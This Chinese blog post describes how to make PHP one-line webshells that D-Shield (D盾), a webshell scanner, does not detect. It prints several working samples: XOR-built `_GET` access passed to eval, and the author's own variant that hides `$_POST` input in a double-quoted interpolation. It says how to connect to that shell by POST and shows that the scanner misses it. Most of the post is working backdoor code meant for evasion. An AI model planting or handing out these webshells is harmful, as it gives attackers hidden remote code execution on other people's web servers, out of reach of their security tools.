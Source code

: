 ### 前言

最近看到安全客一位老哥写了一篇关于bypass d盾一句话木马查杀的技巧，正好最近自己也想研究研究bypass 各大webshell查杀工具，于是就借着老哥的技巧自己拓展了一下。也算是有点小成果，特此记录一下。

### 0x01

在研究的过程中，相对于其他的webshell查杀工具，d盾的规则还是挺严格的，感觉d盾的策略侧重于关注eval,assert这些危险的语言结构或者函数，只要是发现危险函数中出现变量，不管它有没有识别出这个变量的值，先给你报警再说。。。宁可错杀一千也不放过一个，简直太狠了（而且d盾不像安全狗那样注重于正则匹配各种可能的危险调用，就死盯着这些危险函数的参数，所以有的文章说以安全狗为代表的一些查杀工具关注的是“形”，比较容易绕过，只要用各种动态函数调用、异或、无字符一句话、回调函数啥的就可以绕过，而d盾则是关注的危险函数的参数，一旦参数他不能百分百确定没问题，那就报警）

```php
<?php
$a = 123;
eval($a);
>
```

![](images/d.png)

就这么个东西都要一级警告...

我不太熟悉d盾的自动查杀，不知道会不会查杀一级警告的文件，我想应该不会这么残忍，其实把一个一句话弄成一级告警还是挺简单的，例如下面这个：

```php
<?php
$a = "_GE";
$b = "T";
$c = $a.$b;
$d = $$c['a'];
eval($d);
```

![](images/shell2.png)

当然了，一级是不能满足我们的需要的，我们需要木马彻底隐藏，在测试过程中了解到，d盾在发现危险函数，并且这个函数的参数是一个变量的话，那么基本就会告警，但是如果我们输入的危险函数的参数**看起来**是一个常量呢？安全客那位老哥给出的一种策略是：

```php
<?php
    $a = "~+d()"^"!{+{}";
    $b = ${$a}[a];
    eval("n".$b);
?>
```

其中用到了异或构造`_GET`,然后关键处用一个字符拼接了我们从get传来的数据，从而让d盾误以为eval的参数是一个字符串，实现了绕过。那有没有其他方法呢？我这里发现了一个更牛掰的：

```php
<?php
$x = "_POST";
$a = "${${'_POST'}['b']}";
eval("{$$a['a']}");
?>
```

我这个一句话，主要是利用了php中动态变量解析（不知道是不是这么叫），就是双引号是可以包裹的字符串，如果其中有变量，那么是会自动进行解析的，当然，除此之外我还稍稍对敏感的_POST稍微坐了一下处理，绕了几个圈～d盾查杀效果如下：


![](images/shell_mine.png)

通过post传b=x&a=xxxx即可连接shell.

![](images/res.png)


### 0x02

在本次学习过程中，了解到php 7.2不能动态调用assert函数，也就是下面这种形式不能用了：

```php
$a = 'assert'
$$a('phpinfo();');
```

也就导致了以前很多的免杀一句话在php7.2版本就直接报错了，而且eval不是函数，只是一种语言结构，更是不支持动态函数调用了。所以，未来的d盾免杀，我们只能在eval参数上下功夫了（当然，可能还有一些特殊函数没有提到），当然，对于`_GET`以及`_POST`的隐藏还是必须的工序～